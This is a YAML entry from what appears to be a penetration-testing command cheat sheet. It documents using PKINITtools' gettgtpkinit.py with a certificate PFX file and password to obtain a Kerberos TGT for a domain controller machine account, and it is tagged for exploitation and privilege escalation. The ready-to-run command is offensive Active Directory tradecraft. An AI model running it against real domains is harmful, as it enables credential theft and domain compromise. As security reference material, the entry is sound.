 ```yaml
---
description: |
  PKINIT gettgtpkinit.py request a TGT using a PFX file, either as file or as base64 encoded blob, or PEM files for cert+key. This uses Kerberos PKINIT and will output a TGT into the specified ccache. It will also print the AS-REP encryption key which you may need for the getnthash.py tool.

  Command Reference:

    Domain: test.local

    Host that you got the certificate from: DC01

    PFX file: crt.pfx

    PFX file password: password123

    TGT requested: out.ccache

command: |
  python3 gettgtpkinit.py test.local/DC01\$ -cert-pfx crt.pfx -pfx-pass password123 out.ccache
items:
  - Username
  - Password
  - PFX
services:
  - Kerberos
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/dirkjanm/PKINITtools
  - https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

